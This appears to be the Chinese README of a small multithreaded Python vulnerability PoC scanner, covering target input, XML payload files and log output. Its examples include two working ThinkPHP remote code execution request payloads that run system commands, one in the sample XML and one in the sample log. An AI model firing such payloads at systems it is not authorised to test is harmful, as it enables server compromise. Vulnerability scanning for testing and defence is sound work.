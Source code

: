 # 000

第一个从零开发的作品，所以就叫000了，- -

## 简介

000是一个平平无奇的poc验证器，支持多线程、多目标、多poc和单个代理。

## 使用方法

> 1. 填目标ip

可以用`--url`或`-u`指定一个，或者每行一个填入某个文件中，之后用`--url-file`或者`-uf`填入它的路径。

如果`-u`和`-uf`同时存在，则他俩都会被加入扫描列表中

举例:

```
python3 000.py -u "http://127.0.0.1" -uf "urls.txt"
```

其中写到文件中的目标支持下面三种方式：

```
192.168.124.128:80
http://192.168.124.128:8080
http://192.168.124.128:8081/
```

> 2. 写入payload

Payload内容为xml，举例如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <payload>
        <!-- ThinkPHP5 5.0.23 Remote Code Execution Vulnerability -->
        <GET>/index.php?s=captcha</GET>
        <POST>_method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=echo "123"|base64</POST>
        <Header>
            <User-Agent>Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36</User-Agent>
        </Header>
        <Vuln_Condition>MTIzCg==</Vuln_Condition>
    </payload>
</root>
```

`Vuln_Condition`是用来检测漏洞是否存在的字符串。若发送poc后响应包中含有该字符串，则判定该漏洞存在。

写完后需要将其放在一个文件夹中（默认`payload`文件夹，也可以用`--payload-folder`或者`-pf`指定一个你喜欢的文件夹），程序会自动导入该文件夹中的所有`.xml`文件

> 3. 获取扫描结果

程序运行时会在命令行里打印出哪个目标有洞。为了获取更详细的结果我们可以去`log`文件夹找到本次扫描对应的日志文件`xxx.log`，其中就会有详细的信息。

日志会是这样的：

```
[!] Only successful operations are recorded
===============2021-01-18 22:57:58===============
URL: http://192.168.124.128:80/index.php
|Header:
|	User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
|GET:
|	/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "123"|base64
```

> 4. 其他

当然还有代理、线程数、timeout、是否允许重定向的设置。可以用`-h`获取它们的使用方法

# Q&A

Q: 我需要安装什么包？

A: 必须安requests，如果需要使用socks4/5代理的话还需要安装pysocks

 

